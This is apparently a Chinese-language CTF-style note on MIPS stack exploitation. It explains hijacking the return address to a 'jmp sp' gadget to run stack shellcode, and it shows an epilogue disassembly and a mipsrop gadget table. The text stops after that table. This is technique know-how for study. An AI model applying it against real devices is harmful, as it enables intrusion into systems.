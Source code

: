 ## jmp sp，在栈上布置shellcode并跳转
如果没法泄露fp，就没法跳转到栈上了，

而且离开的时候会把栈中的数据加载回内存，丢失掉原来的值，怎么办呢？

仔细一看，原来在离开的时候，不会改变sp的值，

只要我们把ra劫持到jmp sp 之类的地方，就依然可以跳转到栈上的shellcode

.text:00400A2C 03 C0 E8 25 move \$sp, \$fp

.text:00400A30 8F BF 00 7C lw \$ra, 0x58+var_s24(\$sp)

.text:00400A34 8F BE 00 78 lw \$fp, 0x58+var_s20(\$sp)

.text:00400A38 8F B7 00 74 lw \$s7, 0x58+var_s1C(\$sp)

.text:00400A3C 8F B6 00 70 lw \$s6, 0x58+var_s18(\$sp)

.text:00400A40 8F B5 00 6C lw \$s5, 0x58+var_s14(\$sp)

.text:00400A44 8F B4 00 68 lw \$s4, 0x58+var_s10(\$sp)

.text:00400A48 8F B3 00 64 lw \$s3, 0x58+var_sC(\$sp)

.text:00400A4C 8F B2 00 60 lw \$s2, 0x58+var_s8(\$sp)

.text:00400A50 8F B1 00 5C lw \$s1, 0x58+var_s4(\$sp)

.text:00400A54 8F B0 00 58 lw \$s0, 0x58+var_s0(\$sp)

.text:00400A58 27 BD 00 80 addiu \$sp, 0x80

.text:00400A5C 03 E0 00 08 jr \$ra

.text:00400A60 00 00 00 00 nop

### 先把sp保存到其他寄存器
首先使用mipsrop来寻找将栈地址放到其他寄存器的gadget

mipsrop.stackfinder()
| **Address** | **Action**           | **Control Jump** |
|-------------|----------------------|------------------|
| 0x004273C4  | addiu \$a2,\$sp,0x64 | jalr \$s0        |
| 0x0042BCD0  | addiu \$a2,\$sp,0x7C | jalr \$s2        |
| 0x0042FA00  | addiu \$v1,\$sp,0x34 | jalr \$s1        |
| 0x004491F8  | addiu \$a2,\$sp,0x38 | jalr \$s1        |
| 0x0044931C  | addiu \$v0,\$sp,0x28 | jalr \$s1        |
| 0x00449444  | addiu \$a2,\$sp,0x38 | jalr \$s1        |
| 0x0044AD58  | addiu \$a1,\$sp,0x38 | jalr \$s4        |
| 0x0044AEFC  | addiu \$a1,\$sp,0x3C | jalr \$s5        |
| 0x0044B154  | addiu \$a1,\$sp,0x34 | jalr \$s2        |
| 0x0044B1EC  | addiu \$v0,\$sp,0x2C | jalr \$s2        |
| 0x0044B3EC  | addiu \$v0,\$sp,0x40 | jalr \$s0        |
| 0x00454E94  | addiu \$s7,\$sp,0x20 | jalr \$s3        |
| 0x00465BEC  | addiu \$a1,\$sp,0x2C | jalr \$s0        |
